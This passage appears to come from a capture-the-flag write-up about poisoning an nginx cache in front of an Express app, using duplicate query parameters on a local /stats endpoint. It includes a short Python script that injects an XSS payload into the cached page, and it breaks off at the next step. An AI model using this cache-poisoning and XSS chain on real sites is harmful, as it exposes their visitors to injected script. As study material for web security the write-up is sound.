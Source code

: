 We will be able to determine whether something cached or not, as the `console.log` will only be executed once per cache key.

In [express.js](https://expressjs.com/) and other major frameworks we can pass the query parameters not only as `string` values, but also as objects and arrays. If we set the query parameter to be an array, nginx will cache the output for the first key, and in the node application we can use it for our advantage, as the `error` reflects our value. For better understanding, here is a visualization of the vulnerability:

![screenshot](https://i.imgur.com/JXKiRvd.png)

The browser on the left is loading first and the second one is displaying the cached version for seemingly normal endpoint `/stats?period=1m`. The console.log is only executed once, so we can determine whether the cache is poisoned or not.

If we now go to the main page which makes use of this endpoint, we can see:

![screenshot](https://i.imgur.com/9sCnWWf.png)

Now I started to develop the exploit script, as I suspect this will be a long chain of vulnerabilities. The first version looks as follows:

```python
import requests
import urllib.parse

host = "http://localhost:1337"

def encode(s: str):
    return urllib.parse.quote(s)


def poison_cache(s: str):
    response = requests.get(f"{host}/stats?{s}")
    
    return response.text


inj = encode(f"<img src=x onerror=alert(1)>")
s = f"period=1m&period={inj}"

print(poison_cache(s))
```

This script poisons the cache with `<img src=x onerror=alert(1)>` just for blind XSS testing, which appears to be working, so that's nice

![screenshot](https://i.imgur.com/bWV3FVD.png)

## Second step

Ok, so we now have XSS in the main page for anyone that visits the page. The next logical interaction we can try to attack is the `Download Diagnostics` button, which triggers the following code:
